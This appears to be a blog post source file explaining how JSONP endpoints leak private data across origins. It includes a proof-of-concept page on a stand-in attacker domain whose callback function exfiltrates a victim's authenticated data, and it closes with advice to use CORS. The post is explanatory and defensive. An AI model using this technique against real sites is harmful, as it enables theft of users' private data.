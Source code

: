 ```yaml
---
layout: post
title: "The Dangers of JSONP"
date: 2016-07-05 16:34:03 -0500
comments: true
categories: 
---
```


This post is about how I learned of JSONP as an attack vector. This isn't a new vulnerability, but it's just nice that I discovered it on my own. 

###A note on Same-Origin Policy
Same-Origin Policy (SOP) prevents a webpage from reading data on a different domain. So if you open a tab with hacker.com, your browser won't let it read data on bank.com. There are notable exceptions, like `<img>` and `<script>` tags. However, browsers strictly limit their scope. For example, a webpage can only execute a cross-domain script, not read its contents. 

###Some interesting behavior
Playing with traffic in Burp I observed the following behavior. Whatever you pass in the "callback" parameter is reflected in the response.

Request: `GET /sensitive_resource?callback=myFunction`   
Response: `myFunction({"key1":"data1", "key2":"data2", ...})`

Request: `GET /sensitive_resource?callback=AAAAAAAA`   
Response: `AAAAAAAA({"key1":"data1", "key2":"data2", ...})`

My first instinct was to test for XSS, but all output was correctly encoded. The response contained private data, but it required an authenticated session to access.

(Later on I learned that this request/response behavior is an old technique called JSONP. It was used to get around Same-Origin Policy restrictions before CORS came about.)

###The exploit
What if we request that resource from a `<script>` tag on the attacker's webpage? Notice that the response data is wrapped with a JavaScript function call that we control. Can we pre-define that function on the attacker's webpage?

**www.attacker.com:**	
```html
<script>
var exfil_function = function(data) {
	parsed_data = response_specific_parsing(data);
	alert(parsed_data); 
	exfil(parsed_data);
};
</script>

<script src="https://www.victim.com/sensitive_resource?callback=exfil_function"> </script>
```

And it works! The cross-domain script executes `exfil_function({"key1":"data1", "key2":"data2", ...})`, and since we control the definition of `exfil_function`, we can have it read the data! 

Now when an authenticated victim views this malicious webpage, it does a cross-domain read of the sensitive resource and exfiltrates the private data. 

###Lesson: don't use JSONP with private data
JSONP effectively disables Same-Origin Policy for a resource. So be cautious of using it with private data. Instead, use CORS, which gives you fine-grained and securely designed control over cross-origin sharing. 

A slightly related vulnerability is [JSON Hijacking](http://haacked.com/archive/2009/06/25/json-hijacking.aspx/). In conclusion, do not return sensitive data wrapped in JavaScript functions or arrays.
